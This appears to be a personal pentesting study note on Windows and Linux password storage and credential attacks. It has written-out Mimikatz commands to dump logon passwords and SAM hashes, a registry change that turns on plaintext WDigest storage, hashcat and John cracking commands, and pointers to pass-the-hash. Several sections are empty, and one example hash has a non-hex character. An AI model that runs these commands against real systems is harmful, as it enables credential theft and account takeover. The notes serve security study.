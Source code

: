 ## Passwords

- [Passwords](#passwords)
- [Introduction](#introduction)
  - [Password Storage](#password-storage)
  - [Mimikatz - Obtain Hash](#mimikatz---obtain-hash)
    - [Turn On Plain Text Password Storage In Memory](#turn-on-plain-text-password-storage-in-memory)
    - [Download](#download)
    - [Hack](#hack)
    - [Mimikatz LSADump::SAM](#mimikatz-lsadumpsam)
    - [Mimikatz Pass The Hash](#mimikatz-pass-the-hash)
  - [Responder](#responder)
  - [Password cracking](#password-cracking)
    - [OnlineHashCrack.com](#onlinehashcrackcom)
    - [Cain and abel](#cain-and-abel)
    - [John the Ripper](#john-the-ripper)
    - [HashCat](#hashcat)
    - [THC Hydra](#thc-hydra)
    - [Aircrack-ng](#aircrack-ng)
    - [L0phtcrack and ophcrack](#l0phtcrack-and-ophcrack)
    - [Dictionary Attack](#dictionary-attack)
    - [Spidering :](#spidering-)
    - [Hybrid attacks eg James1](#hybrid-attacks-eg-james1)
    - [Pass The Hash PtH](#pass-the-hash-pth)


## Introduction

HaveIBeenPwned - has my username and password already been hacked?

[haveibeenpwned.com](http://haveibeenpwned.com/)

[Howsecureismypassword.net](http://howsecureismypassword.net/)




### Password Storage

most passwords stored as MD5 or SHA1

Windows System 

      32\CONFIG\SAM          LOCAL USERS    
      C:\WINDOWS\NTDS\NTDS.DIT       DOMAIN USERS

  Windows 10 Passwords are stored as NT hashes which uses UTF16 encoding plus MD-4 hashing

    [Jason, :, 502, :, aad3c435b514a4eeaad3b935b51304fe, :, c46b9e588fa0d112de6f59fd6d58eae3, :, :, :] 

    Username : account type eg 502 = kerberos : LM hash : NT hash

    Note : LM hash is off by default since Windows Vista

      Authentication types 

        LM      uses ASCII character set

        NTLM    NTHash - uses UNICODE character set so much harder to brute force

                Uses DES-ECB algorithm

                Hash Algorithm is MD4(UTF-16-LE(password))  where LE is Little Endian

        NTLM2   Default in Windows since Win2000 and uses HMAC-MD5 algorithm

            Looks like

              admin::N46iSNekpT:08ca45b7d7ea58ee:88dcbe4446168966a153a0064958dac6:5c7830315c7830310000000000000b45c67103d07d7b95acd12ffa11230e0000000052920b85f78d013c31cdb3b92f5d765c783030

              username:accounttype:LMHash:NTHash
        Kerberos  

      Implement NoLM Group Policy to prevent LM hashes being stored

      Most password crackers crack the LM then use this text to try and crack the NT


Linux

      /etc/passwd    All users can reach this location
      /etc/shadow Only root user can reach this location


### Mimikatz - Obtain Hash

Mimikatz can be used to extract Windows 10 hashes

Hashes have many different types.  See https://hashcat.net/wiki/doku.php?id=example_hashes 

#### Turn On Plain Text Password Storage In Memory

Redgeit as administator => HKLM => System => CurrentControlSet => Control => SecurityProviders => WDigest => UseLogonCredential DWORD 1  and REBOOT PC

#### Download

Download from here https://github.com/gentilkiwi/mimikatz/releases (download and extract the ZIP file and run the x64 exe)

Run x64 Mimikatz as Administrator and run

#### Hack

```bash
# elevate
privilege::debug
# elevate
token::elevate
# log
log 
# or log to named file
log mimikatz.log
# dump passwords
sekurlsa::logonpasswords 
sekurlsa::logonpasswords full
# get hashes
dpapi::cache //load
# get keys
sekurlsa::ekeys
```

#### Mimikatz LSADump::SAM

Get All Hashes From System

```bash
# Export Registry (Powershell)
reg save HKLM\SAM sam.hiv
reg save HKLM\SYSTEM system.hiv
# Mimikatz elevate
privilege::debug
token::elevate
# Mimikatz dump LSA hashes
cd c:\path\to\mimikatz\executable
log hash.txt
lsadump::sam sam.hiv system.hiv
```

Now edit the file so the data is in this format  username:NTLMHash

  Philip:0aca9df100f9bc3a68a50fda1812636g

Copy this file to HashCat and run the command

```bash
hashcat -m 1000 -a 0 --force --show --username hash.txt wordlist1.lst 
```

and any password matches will show up.

#### Mimikatz Pass The Hash

We can now use these credentials to log into a domain!

cal

### Responder

Obtains the hash over the network


### Password cracking

#### OnlineHashCrack.com

https://www.onlinehashcrack.com

#### Cain and abel

#### John the Ripper

John The Ripper : use to find a password from a hash

```bash
john --format=nt hash.txt
```

#### HashCat

```bash
hashcat -m 1000 -a 3 hash.txt
```

#### THC Hydra

#### Aircrack-ng

#### L0phtcrack and ophcrack

#### Dictionary Attack

       splashdata.com

       Daniel Miessler github
       
#### Spidering : 

search in plain text all files on computer, then use these to try as passwords
       
#### Hybrid attacks eg James1

#### Pass The Hash PtH

if hash is obtained, submit it directly

       Combat this -  should only log on to DC with domain admin
                            credentials, also
                            Restricted Admin mode restricts where domain admin
                                          credentials can be used
                                          
Note : live system : might be possible to obtain from memory (RAM)
